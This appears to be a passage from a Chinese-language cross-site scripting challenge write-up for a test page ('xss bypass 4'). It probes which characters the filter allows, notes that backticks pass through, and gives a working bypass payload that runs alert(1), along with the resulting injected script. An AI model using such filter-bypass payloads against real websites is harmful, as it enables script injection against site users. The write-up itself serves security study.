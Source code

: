```
http://px1624.sinaapp.com/test/xsstest4/?px='\'
http://px1624.sinaapp.com/test/xsstest4/?px=']'
http://px1624.sinaapp.com/test/xsstest4/?px='^' error input!
http://px1624.sinaapp.com/test/xsstest4/?px='_'
http://px1624.sinaapp.com/test/xsstest4/?px='`'
http://px1624.sinaapp.com/test/xsstest4/?px='a'
http://px1624.sinaapp.com/test/xsstest4/?px='b'
http://px1624.sinaapp.com/test/xsstest4/?px='c'
http://px1624.sinaapp.com/test/xsstest4/?px='d'
http://px1624.sinaapp.com/test/xsstest4/?px='e'
http://px1624.sinaapp.com/test/xsstest4/?px='f'
http://px1624.sinaapp.com/test/xsstest4/?px='g'
http://px1624.sinaapp.com/test/xsstest4/?px='h'
http://px1624.sinaapp.com/test/xsstest4/?px='i'
http://px1624.sinaapp.com/test/xsstest4/?px='j'
http://px1624.sinaapp.com/test/xsstest4/?px='k'
http://px1624.sinaapp.com/test/xsstest4/?px='l'
http://px1624.sinaapp.com/test/xsstest4/?px='m'
http://px1624.sinaapp.com/test/xsstest4/?px='n'
http://px1624.sinaapp.com/test/xsstest4/?px='o'
http://px1624.sinaapp.com/test/xsstest4/?px='p'
http://px1624.sinaapp.com/test/xsstest4/?px='q'
http://px1624.sinaapp.com/test/xsstest4/?px='r'
http://px1624.sinaapp.com/test/xsstest4/?px='s'
http://px1624.sinaapp.com/test/xsstest4/?px='t'
http://px1624.sinaapp.com/test/xsstest4/?px='u'
http://px1624.sinaapp.com/test/xsstest4/?px='v'
http://px1624.sinaapp.com/test/xsstest4/?px='w'
http://px1624.sinaapp.com/test/xsstest4/?px='x'
http://px1624.sinaapp.com/test/xsstest4/?px='y'
http://px1624.sinaapp.com/test/xsstest4/?px='z'
http://px1624.sinaapp.com/test/xsstest4/?px='{'
http://px1624.sinaapp.com/test/xsstest4/?px='|' error input!
http://px1624.sinaapp.com/test/xsstest4/?px='}'
http://px1624.sinaapp.com/test/xsstest4/?px='~' error input!
```

发现反引号没有被过滤,而js会将反引号中的内容理解为字符串

```html
http://px1624.sinaapp.com/test/xsstest4/?px=';{alert(1);`.toString('

Give me xss bypass 4~
<script src="./jquery-3.4.1.min.js"></script>
<script>
    $(function test() {
		var px = '';{alert(1);`.toString('';
		if (px != "") {
			$('xss').val('';{alert(1);`.toString('');
		}
	})
</script>
```
